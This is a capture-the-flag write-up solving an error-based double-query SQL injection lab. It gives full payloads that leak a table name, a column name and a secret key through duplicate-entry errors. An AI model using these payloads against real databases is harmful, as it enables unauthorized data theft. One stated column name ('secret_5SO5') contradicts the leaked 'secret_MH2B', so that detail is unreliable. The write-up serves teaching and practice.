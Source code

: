 # Challenge - 6

This challenge is based on double query injection and we have to use AND in this injection

## Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\ LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = input 
```

We can check this using id=

```sql
0 or 1=1 --+
```

which will give us a login id and password.

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```ABAP
Duplicate entry ':brswxk4bx6:0' for key 'group_key'
```

From which we get table_name = **brswxk4bx6**

Now we can get the column name using: id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='brswxk4bx6' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':secret_MH2B:0' for key 'group_key'
```

From which we will get column_name = **secret_5SO5**

Now we can get the secret key using : id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select secret_MH2B from brswxk4bx6),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':MWEO9IB251RirQPBewbIgCfd:0' for key 'group_key'
```

where the key is :
**MWEO9IB251RirQPBewbIgCfd**
